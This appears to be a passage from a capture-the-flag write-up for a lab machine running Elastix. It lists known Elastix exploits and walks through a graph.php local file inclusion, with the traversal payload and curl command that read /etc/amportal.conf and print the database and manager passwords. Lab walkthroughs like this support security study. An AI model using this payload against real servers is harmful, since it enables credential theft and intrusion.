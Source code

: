 ![](/assets/images/beep1.png)

We are immediately presented with a login page to `Elastix`. Trying the default crendentials `admin:admin` did not work so lets see if there are any working exploits we can use.

```bash
$ searchsploit elastix
------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                     |  Path
------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                              | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities            | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities      | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                   | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                  | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                 | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution             | php/webapps/18650.py
------------------------------------------------------------------- ---------------------------------
```

If we check out the `Elastix 2.2.0 - 'graph.php' Local File Inclusion` vulnerability, it says that by browsing to `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`, we will be able to read `/etc/amportal.conf` which contains some confidential config parameters.

```bash
$ curl -k "https://beep.htb/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action"
...
AMPDBHOST=localhost
AMPDBENGINE=mysql
# AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
# AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE

...

#FOPPASSWORD=passw0rd
FOPPASSWORD=jEhdIekWmdjE
```